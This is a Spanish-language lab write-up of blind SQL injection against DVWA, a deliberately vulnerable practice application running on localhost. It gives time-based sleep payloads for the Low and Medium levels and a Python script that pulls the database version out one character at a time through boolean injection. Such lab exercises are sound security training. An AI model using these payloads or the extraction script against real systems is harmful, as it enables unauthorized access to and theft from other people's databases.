


# SQL Injection (Blind) - DVWA

## Nivel de seguridad: Low

La vulnerabilidad de **inyección SQL ciega** se detecta usando el siguiente payload:

```sql
1' and sleep(5)#
```

Esto provoca un retardo de **5 segundos** en la respuesta del servidor, confirmando la existencia de una vulnerabilidad de inyección.



### Explotación

Se utilizó un script en Python para extraer la versión de la base de datos mediante fuerza bruta, caracter a caracter.

Fragmento del código utilizado:

```python
import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=low; PHPSESSID=aopnk68k3t44kj83nhujm23a77"
url = 'http://127.0.0.1/DVWA/vulnerabilities/sql_blind/'

# Obtener longitud de la versión
for i in range(100):
    parameters = f'id=1'+f'+and+length(version())%3d{i}%23&Submit=Submit'
    r = requests.get(url, headers=headers, params=parameters)
    if 'User ID exists in the database' in r.text:
        length = i
        break

# Extraer versión caracter a caracter
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f'id=1'+f'+and+ascii(substring(version(),{i},{i}))%3d{s}%23&Submit=Submit'
        r = requests.get(url, headers=headers, params=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
```

El script devuelve la versión de la base de datos:
```
11.8.0-MariaDB-2
```

---

## Nivel de seguridad: Medium

En el nivel **Medium**, la técnica de detección sigue siendo funcional, pero el payload debe ser ligeramente adaptado debido a filtros.

Payload de detección:

```sql
1 and sleep(5)
```

Al igual que en el nivel Low, se detecta un retardo en la respuesta de **5 segundos**.



Se usó el mismo script en Python, cambiando los parámetros adecuados si fuera necesario.

---

> **Nota:** En una inyección SQL ciega, la respuesta del servidor no revela directamente datos, pero permite inferir información basándose en el tiempo de respuesta o cambios en el comportamiento.
